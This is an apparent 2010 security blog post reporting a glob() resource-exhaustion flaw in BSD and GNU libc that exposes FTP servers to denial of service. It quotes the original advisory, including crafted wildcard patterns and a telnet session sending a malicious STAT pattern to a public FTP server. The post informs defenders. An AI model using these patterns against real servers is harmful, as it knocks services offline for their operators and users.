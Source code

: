 ```yaml
---
layout: post
title: Flaw in  glob function implementation put FTP servers at risk
date: '2010-10-08T09:08:00.003+02:00'
author: Xavier Garcia
tags:
- glob
- vulnerability
- dos
- ftp
modified_time: '2010-10-08T09:13:13.651+02:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-2498250541719385089
blogger_orig_url: http://www.shellguardians.com/2010/10/flaw-in-libcs-glob-implementation-put.html
---
```

H Security [reports](http://www.h-online.com/security/news/item/Flaw-in-libc-implementation-threatens-FTP-servers-1103319.html) a DoS vulnerability that affects many FTP servers. These servers relay in a flawed implementation of the glob function, that is vulnerable to a resource exhaustion attack.  
  
Quoting H Security,  
  

> The problem exists because GLOB\_LIMIT, a feature added in 2001 to limit the amount of memory used by the glob() function is ineffective. Globbing, as it is called, calls on the glob() function to match wildcard patterns when generating a list of matching file names. Because GLOB\_LIMIT is not effective, it potentially allows a system's main memory to be flooded when processing certain patterns and this may, depending on the hardware used, cause the system to become very slow, cease to respond or even crash as a result.

  
Maksymilian Arciemowicz, the researcher that published the [advisory](http://securityreason.com/achievement_securityalert/89) (Also published in [exploit-db.com](http://www.exploit-db.com/exploits/15215/)),  reported that the main BSD operative systems are affected (OpenBSD, NetBSD, FreeBSD and Solaris) as well as GNU libc.  
  
The advisory confirms that the vulnerability is easily exploitable:  

  
> GLOB_LIMIT
> 
> protect us before attacks like
> 
> */../*/../*/../*/../*/../*/../*/../*/../*/../*/../*/../*
> 
> because glob will find more patches as in GLOB_LIMIT declared. Anyway, if
> 
> we use path what do not exists (with */.. strings) like
> 
> */../*/../*/../*/../*/../*/../*/../*/../*/../*/../*/../*blablahaha
> 
> GLOB_LIMIT will be never overflowed. Many combinations of paths, will
> 
> execute this proces a long time. We can also try allocate
> 
> (GLOB_LIMIT-1)*MAXPATHNAMELEN bytes per one process. ~200~300MB

Example:

```
\> telnet ftp.netbsd.org 21

Trying 204.152.190.15...

Connected to ftp.netbsd.org.

Escape character is '^\]'.

220 ftp.NetBSD.org FTP server (NetBSD-ftpd 20100320) ready.

user anonymous

331 Guest login ok, type your name as password.

pass anon@cxib

230-

The NetBSD Project FTP Server located in Redwood City, CA, USA

...

230-

EXPORT NOTICE

  

...

230 Guest login ok, access restrictions apply.

stat

{..,..,..}/*/{..,..,..}/*/{..,..,..}/*/{..,..,..}/*/{..,..,..}/*/{..,..,..}

/*/{..,..,..}/*/{..,..,..}/*/{..,..,..}/*/{..,..,..}/*/{..,..,..}/*cx

```
  

this request will generate 100% usage of process a long time. ftpd come into glob(3) and will not fast out. Very similar sympthon was described in vulnerability for glibc strfmon(3)
